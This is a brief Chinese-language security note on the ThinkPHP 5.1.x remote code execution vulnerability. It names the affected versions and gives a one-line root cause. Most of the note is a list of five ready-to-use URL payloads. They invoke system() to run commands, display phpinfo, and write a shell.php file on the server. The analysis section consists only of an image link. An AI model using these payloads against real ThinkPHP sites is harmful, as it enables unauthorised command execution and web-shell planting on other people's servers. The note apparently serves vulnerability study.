 ```yaml
---
type: sec-note
title: thinkphp 5.1.x RCE
tags:
  - php
  - thinkphp
  - 漏洞分析
---
```

# thinkphp 5.1.x RCE

## 参考文章

[https://xz.aliyun.com/t/9369](https://xz.aliyun.com/t/9369)

## RCE1

### 根本原因

thinkphp没有对用户传入的操作器名称进行过滤,导致可以调用顶部类中的方法,造成一系列的危害

### 影响版本

TP5.1.0-5.1.30

### payload

 ```PHP
 ?s=index/\think\Request/input&filter[]=system&data=pwd
 ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>#注意由于windows不区分大小写的原因所以这个payload在windows下无法使用
 ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
 ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ```


### 分析
![](https://gitee.com/guuest/images/raw/master/img/20220306114338.png)